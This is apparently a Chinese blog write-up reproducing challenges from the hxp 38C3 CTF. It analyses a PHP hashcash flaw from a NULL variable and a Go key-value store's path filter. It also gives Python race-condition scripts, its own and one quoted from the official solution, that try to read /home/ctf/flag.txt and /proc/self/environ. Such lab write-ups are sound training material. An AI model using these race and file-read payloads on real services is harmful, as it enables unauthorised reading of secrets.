





+++
title = "hxp38C3CTF"
slug = "hxp38c3ctf"
description = "牛"
date = "2025-03-27T20:14:55"
lastmod = "2025-03-27T20:14:55"
image = ""
license = ""
categories = ["复现"]
tags = ["RaceCondition"]
+++

起环境的时候发现了这样的报错

```shell
[+] Running 1/0
 ✘ Network haschbargeld_default  Error                                                                0.0s 
failed to create network haschbargeld_default: Error response from daemon: all predefined address pools have been fully subnetted
```

也就是说IP池满了，清理一下就好了

```
# 删除所有未使用的网络
docker network prune

# 强制清理所有未使用的资源（网络、卷、镜像）
docker system prune -a
```

## haschbargeld

附件里面没有代码，而是一些简单的设置，先去docker里面拿源码

```
# 1. 进入容器 shell
docker exec -it 5ceea67d943e /bin/bash

# 2. 查看代码位置（根据 Dockerfile 提示在 /var/www/html）
ls -la /var/www/html

# 3. 使用 tar 打包源码（容器内操作）
tar czvf /tmp/source.tar.gz -C /var/www/html .

# 4. 从容器复制到宿主机（宿主机操作）
docker cp 5ceea67d943e:/tmp/source.tar.gz .
```

在`post_comment.php`里面

```php
<?php
include "hashcash.php";
if (hc_CheckStamp()) {
    echo file_get_contents("/flag.txt");
}
?>
```

跟进函数，关键代码如下

```php
function hc_CheckStamp()
{
	global $hc_contract, $hc_maxcoll, $hc_stampsize;
	$validstamp = true;

	$stamp = $_POST['hc_stamp'];
	$client_con = $_POST['hc_contract'];
	$collision = $_POST['hc_collision'];

	if($client_con != $hc_contract) $validstamp = false; 

	if($validstamp) if(strlen($stamp) != $hc_stampsize) $validstamp = false; 
	if($validstamp) if(strlen($collision) > $hc_maxcoll) $validstamp = false; 
	if($validstamp) $validstamp = hc_CheckExpiration($stamp); 


	if($validstamp) $validstamp = hc_CheckContract($stamp, $collision, $contract);

	return $validstamp;
}
```

我们必须通过所有验证，才能保证`$validstamp`为TRUE，才能得到flag，由于是global关键字，所以直接看`hc_config.php`，看到参数

```php
<?php
$hc_salt = "bd62bf9b8eb3c60d92246c3a67efb78c  /flag.txt";

$hc_contract = 31;
$hc_maxcoll = 8;
$hc_tolerance = 2;
$hc_stampsize = 8;
?>
```

```
hc_contract=31&hc_stamp=8位的字符串&hc_collision=9位字符串
```

这是前三个`if`，到了第四个`if`进行跟进`hc_CheckExpiration`，

```php
function hc_CheckExpiration($a_stamp)
{
	global $hc_salt, $hc_tolerance;

	$expired = true;
	$tempnow = intval(time() / 1);
	$ip = $_SERVER['REMOTE_ADDR'];

	for($i = 0; $i < $hc_tolerance; $i++)
	{
		if($a_stamp === hc_HashFunc(($tempnow - $i) . $ip . $hc_salt))
		{
			$expired = false;
			break;
		}
	}

	return !($expired);
}
```

时间戳哪里我其实挺迷惑的后面测试发现等效

```php
<?php
$a=intval(time()/1);
echo $a."\n";
$b=time();
echo $b;
/*
1743059316
1743059316
```

继续跟进`hc_HashFunc`

```php
function hc_HashFunc($x) { return sprintf("%08x", crc32($x)); }
```

写出相应处理

```php
<?php
// 1. 定义全局配置
$hc_tolerance = 2;
$hc_salt = "bd62bf9b8eb3c60d92246c3a67efb78c  /flag.txt";

// 2. 哈希函数
function hc_HashFunc($x) {
    return sprintf("%08x", crc32($x));
}

function hc_CheckExpiration()
{
    global $hc_salt, $hc_tolerance;

    $tempnow = intval(time() / 1);
    $ip = $_SERVER['REMOTE_ADDR'];

    for($i = 0; $i < $hc_tolerance; $i++)
    {
        if(hc_HashFunc(($tempnow - $i) . $ip . $hc_salt))
        {
            echo hc_HashFunc(($tempnow - $i) . $ip . $hc_salt)."\n";
        }
    }
}
hc_CheckExpiration();
```

他虽然生成会生成两次，但是只需要对一次就可以过第四个`if`，也就是说应该需要爆破，看第五个`if`

```php
function hc_CheckContract($stamp, $collision, $stamp_contract)
{
	if($stamp_contract >= 32)
		return false;

	$maybe_sum = hc_HashFunc($collision);

	$partone = hc_ExtractBits($stamp, $stamp_contract);
	$parttwo = hc_ExtractBits($maybe_sum, $stamp_contract);

	return (strcmp($partone, $parttwo) == 0);
}
```

传参的时候就不知道`$contract`是多少，所以应该是NULL，跟进函数`hc_ExtractBits`



这函数就是一个十六进制转二进制的函数，但是由于`$contract`为NULL所以前四层过了，第五层也会过，就可以获得flag了

## Fajny Jagazyn Wartości Kluczy

是一个go的web应用，代码量很小

```go
package main

import (
	"crypto/rand"
	"encoding/hex"
	"log"
	"net"
	"net/http"
	"net/http/httputil"
	"net/url"
	"os"
	"os/exec"
	"strings"
	"sync"
	"time"
)

type unixDialer struct {
	net.Dialer
}

func (d *unixDialer) Dial(network, address string) (net.Conn, error) {
	return d.Dialer.Dial("unix", "/tmp/kv."+strings.Split(address, ":")[0]+"/kv.socket")
}

var transport http.RoundTripper = &http.Transport{
	Proxy: http.ProxyFromEnvironment,
	Dial:  (&unixDialer{net.Dialer{Timeout: 5 * time.Second}}).Dial,
}

var backends sync.Map

func NewKV() string {
	bytes := make([]byte, 32)
	if _, err := rand.Read(bytes); err != nil {
		return ""
	}
	session := hex.EncodeToString(bytes)

	go func() {
		cmd := exec.Command("./kv")
		cmd.Env = append(os.Environ(), "SESSION="+session)

		cmd.Run()
		backends.Delete(session)
	}()

	url, err := url.Parse("http://" + session)
	if err != nil {
		return ""
	}
	proxy := httputil.NewSingleHostReverseProxy(url)
	proxy.Transport = transport

	backends.Store(session, proxy)
	return session
}

func main() {
	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		session := ""
		if cookie, err := r.Cookie("session"); err == nil {
			session = cookie.Value
		}

		proxy, ok := backends.Load(session)
		if !ok {
			cookie := &http.Cookie{Name: "session", Value: NewKV(), Path: "/", Expires: time.Now().Add(180 * time.Second)}
			http.SetCookie(w, cookie)
			w.Write([]byte("We booted a fresh web scale Key Value Store just for you 🥰 (Please enjoy it for the next 180 seconds)"))
			return
		}
		proxy.(*httputil.ReverseProxy).ServeHTTP(w, r)
	})

	srv := &http.Server{
		ReadTimeout:  5 * time.Second,
		WriteTimeout: 5 * time.Second,
		IdleTimeout:  10 * time.Second,
		Handler:      http.DefaultServeMux,
		Addr:         ":1024",
	}
	log.Println(srv.ListenAndServe())
}
```

```go
package main

import (
	"fmt"
	"io"
	"net"
	"net/http"
	"os"
	"strings"
	"time"
)

func checkPath(path string) error {
	if strings.Contains(path, ".") {
		return fmt.Errorf("🛑 nielegalne (hacking)")
	}

	if strings.Contains(path, "flag") {
		return fmt.Errorf("🛑 nielegalne (just to be sure)")
	}

	return nil
}

func main() {
	time.AfterFunc(180*time.Second, func() {
		os.Exit(0)
	})

	session, ok := os.LookupEnv("SESSION")
	if !ok {
		panic("SESSION env not set")
	}

	dataDir := "/tmp/kv." + session
	err := os.Mkdir(dataDir, 0o777)
	if err != nil {
		panic(err)
	}
	err = os.Chdir(dataDir)
	if err != nil {
		panic(err)
	}

	http.HandleFunc("/get", func(w http.ResponseWriter, r *http.Request) {
		name := r.URL.Query().Get("name")
		if err = checkPath(name); err != nil {
			http.Error(w, "checkPath :(", http.StatusInternalServerError)
			return
		}

		file, err := os.Open(name)
		if err != nil {
			http.Error(w, "Open :(", http.StatusInternalServerError)
			return
		}

		data, err := io.ReadAll(io.LimitReader(file, 1024))
		if err != nil {
			http.Error(w, "ReadAll :(", http.StatusInternalServerError)
			return
		}

		w.Write(data)
	})

	http.HandleFunc("/set", func(w http.ResponseWriter, r *http.Request) {
		name := r.URL.Query().Get("name")
		if err = checkPath(name); err != nil {
			http.Error(w, "checkPath :(", http.StatusInternalServerError)
			return
		}

		err := os.WriteFile(name, []byte(r.URL.Query().Get("value"))[:1024], 0o777)
		if err != nil {
			http.Error(w, "WriteFile :(", http.StatusInternalServerError)
			return
		}
	})

	unixListener, err := net.Listen("unix", dataDir+"/kv.socket")
	if err != nil {
		panic(err)
	}
	http.Serve(unixListener, nil)
}
```

我们先看`kv.go`，首先对路径关键字进行约束



设置180s自动退出，也就是说我们的session是有时限的





可以写入文件或者是读取文件，成功读取环境变量

```
/get?name=/proc/self/environ
```

首先想到的就是Unicode来进行绕过但是失败了 

```
/get?name=/home/ctf/ｆｌａｇ.txt
```

后面想着能否进行条件竞争呢，如果我一个文件路径是正常的，一个文件路径是flag，可能就可以做到

```python
import requests
import threading
import time

# 设置目标 URL 和超时时间
url = "http://abc.baozongwi.xyz:8088/"

# 创建全局 session
session = requests.Session()

# 获取 session_id
def get_session():
    while True:
        try:
            r = session.get(url)
            session_id = r.cookies.get('session')
            if not session_id:
                print("[ERROR] 获取 session 失败，重试中...")
                time.sleep(2)
                continue
            session.cookies.set('session', session_id)
            print("[+] session_id:", session_id)
            return
        except requests.RequestException as e:
            print("[ERROR] 请求失败，重试中...", e)
            time.sleep(2)

# 检查是否需要刷新 session
def check_and_refresh_session(response_text):
    if "We booted a fresh web scale Key Value Store" in response_text:
        print("[INFO] 检测到 session 失效，重新获取...")
        get_session()

# 爆破 /proc/self/environ 获取环境变量
def get_env():
    while event.is_set():
        try:
            r = session.get(f"{url}get", params={"name": "/proc/self/environ"})
            check_and_refresh_session(r.text)  # 检查 session 是否需要刷新
            print("[ENV] ", r.text)
        except requests.RequestException as e:
            print("[ERROR] 获取环境变量失败:", e)

# 爆破 /home/ctf/flag.txt 获取 flag
def get_flag():
    while event.is_set():
        try:
            r = session.get(f"{url}get", params={"name": "/home/ctf/flag.txt"})
            check_and_refresh_session(r.text)  # 检查 session 是否需要刷新

            if "hxp{" in r.text:
                print("[FLAG] ", r.text)
                event.clear()  # 找到 flag，停止线程
        except requests.RequestException as e:
            print("[ERROR] 获取 flag 失败:", e)

if __name__ == '__main__':
    # 初始化 session
    get_session()

    # 线程控制事件
    event = threading.Event()
    event.set()

    # 创建并启动获取 flag 的线程
    for _ in range(50):
        threading.Thread(target=get_flag).start()

    # 创建并启动获取环境变量的线程
    for _ in range(30):
        threading.Thread(target=get_env).start()


```

这是我写的，在Windows上面运行的，一直没有竞争成功，看到官方WP的脚本

```python
#!/usr/bin/env python3

import requests
import sys, time
from multiprocessing import Process, Queue

URL = f'http://{sys.argv[1]}:{sys.argv[2]}'

r = requests.get(URL)
session_id = r.cookies['session']
print('[+] session_id', session_id)

time.sleep(1)

queue = Queue()

def worker(session_id, path,queue):
    sess = requests.Session()
    sess.cookies.set('session', session_id)

    while True:
        r = sess.get(f"{URL}/get", params={'name': path})
        if 'flag' in path and 'hxp{' in r.text:
            queue.put(r.text)

processes = []
for _ in range(8):
    p = Process(target=worker, args=(session_id, 'A', queue))
    processes.append(p)
    p.start()

for _ in range(8):
    p = Process(target=worker, args=(session_id, '/home/ctf/flag.txt',queue))
    processes.append(p)
    p.start()

flag = queue.get()
print(flag)

for p in processes:
    p.kill()
```



真是有点想不明白了，重启一下容器

```
docker stop c058cf94e5ea && docker rm c058cf94e5ea && docker rmi 36b594cdd39d
```

结果还是一样的不能成功

## phpnotes

[超出我的认知](https://hxp.io/blog/113/hxp-38C3-CTF-phpnotes/)
